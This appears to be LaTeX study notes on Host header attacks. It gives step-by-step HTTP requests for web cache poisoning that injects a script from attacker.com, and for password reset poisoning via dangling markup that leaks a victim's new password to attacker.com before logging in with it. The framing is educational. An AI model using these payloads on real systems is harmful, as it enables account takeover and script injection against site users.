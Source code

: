 \documentclass[12pt,a4paper]{article}
\begin{document}
\subsection{Exploitation Techniques}

\subsubsection{1. Cache Poisoning Exploitation}

\begin{lstlisting}[caption=Cache Poisoning Attack]
# Step 1: Poison the cache
GET /?cb=123 HTTP/1.1
Host: vulnerable.com
Host: attacker.com

# Step 2: Verify poisoning
GET /?cb=123 HTTP/1.1
Host: vulnerable.com

# Response should contain:
# <script src="http://attacker.com/payload.js"></script>

# Step 3: Victim requests
GET /?cb=123 HTTP/1.1
Host: vulnerable.com

# Victim receives poisoned response
# XSS executes in victim's browser
\end{lstlisting}

\subsubsection{2. Password Reset Poisoning}

\begin{lstlisting}[caption=Password Reset Attack]
# Step 1: Inject malicious host
POST /forgot-password HTTP/1.1
Host: vulnerable.com:'<a href="//attacker.com/?
username=carlos

# Step 2: Check email client raw view
# Dangling markup exfiltrates password

# Step 3: Access log shows password
GET /?/reset%27%3E...password:NewPass123...
Host: attacker.com

# Step 4: Login with stolen password
POST /login HTTP/1.1
Host: vulnerable.com
username=carlos&password=NewPass123
\end{lstlisting}

\subsubsection{3. Password Reset Poisoning via Dangling Markup}

\textbf{What is Dangling Markup?}
Dangling markup is an HTML injection technique where you leave unclosed tags that cause the browser to include subsequent page content as attributes of the injected tag, effectively exfiltrating that content.
\end{document}
